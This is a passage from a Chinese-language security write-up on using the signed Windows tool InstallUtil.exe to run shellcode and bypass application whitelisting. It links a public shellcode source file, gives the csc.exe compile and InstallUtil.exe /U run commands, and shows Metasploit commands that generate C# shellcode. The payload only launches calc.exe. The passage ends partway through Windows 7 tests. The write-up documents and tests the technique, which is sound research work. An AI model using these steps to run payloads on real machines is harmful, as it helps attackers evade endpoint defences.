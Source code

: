 2、利用InstallUtil.exe直接执行shellcode
--------------------------------

下载链接：[https://gist.github.com/subTee/a06d4ae23e2517566c52](https://gist.github.com/subTee/a06d4ae23e2517566c52)

下载文件保存为Shellcode.cs，按照其描述执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

0x04 实际测试
=========

* * *

**注**：根据不同操作系统版本，需要对上述利用代码作相应修改

1、xp x86
--------

默认不包含.net环境，暂不测试，但可为最终结论提供参考

2、win7 x86
----------

默认.net环境

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f917bfc79c846d363ac1ee6493f33ff3930696a3.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 3.5无法成功编译PELoader.cs

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/8a94753227306e8486ef268fa4b7842eb70f2d7a.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

通过msf生成32位shellcode

```
use windows/exec
set CMD calc.exe
set EXITFUNC thread
generate -t csharp

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a9a9956e5d4799e113d6cecc660b76c1c80baf6c.jpg)
